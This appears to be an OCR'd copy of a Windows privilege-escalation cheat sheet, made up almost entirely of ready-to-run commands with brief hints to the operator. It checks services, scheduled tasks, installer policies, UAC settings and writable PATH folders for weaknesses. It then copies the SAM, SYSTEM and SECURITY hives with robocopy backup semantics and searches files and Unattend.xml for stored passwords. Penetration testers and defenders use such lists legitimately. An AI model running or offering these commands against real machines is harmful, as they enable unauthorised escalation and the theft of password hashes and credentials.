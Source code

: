 Services – details and binary path (replace SERVICE_NAME found above):
```
sc qc SERVICE_NAME
sc query SERVICE_NAME
```

Check write permissions on service binary directory and file (update path from sc qc output):
```
icacls "C:\Path\To\Service\Directory"
icacls "C:\Path\To\Service\Binary.exe"
```

Services – check if you can stop/start (might require rights; if denied, note for later/reboot window):
```
sc stop SERVICE_NAME
sc start SERVICE_NAME
```

Scheduled tasks (scan for tasks running as SYSTEM/Admin and writable action paths):
```
schtasks /query /fo LIST /v > C:\Users\Public\tasks.txt
```

AlwaysInstallElevated:
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 2>nul
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 2>nul
```

UAC policy (useful if you’re already in Administrators but medium integrity):
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin
```

PATH hijacking (PowerShell – see if Users/Everyone have Write/Modify on any PATH directories):
```
powershell -NoP -C "$env:Path.Split(';') | ?{$_ -and (Test-Path $_)} | %{'`n== '+$_+' =='; (Get-Acl $_).Access | ?{$_.IdentityReference -match 'Users|Everyone|Authenticated Users' -and $_.FileSystemRights -match 'Write|Modify|FullControl'} }"
```

Token privileges (cmd.exe; look for SeImpersonatePrivilege/SeAssignPrimaryTokenPrivilege enabled):
```
whoami /priv
```

If SeBackupPrivilege/SeRestorePrivilege are enabled, try backup semantics (may need a temp dir you can write to):
```
mkdir C:\Temp 2>nul
robocopy C:\Windows\System32\config C:\Temp SAM SYSTEM SECURITY /b
```

Credential discovery:
```
cmdkey /list

findstr /si /m /p "password" "C:\Users\*\Desktop\*.txt" "C:\Users\*\Documents\*.txt" "C:\ProgramData\*.config" "C:\inetpub\wwwroot\*.config" 2>nul
dir /s /b "C:\Windows\Panther\Unattend.xml" "C:\Windows\Panther\Unattend\Unattend.xml" 2>nul
type "C:\Windows\Panther\Unattend.xml" 2>nul
type "C:\Windows\Panther\Unattend\Unattend.xml" 2>nul
```

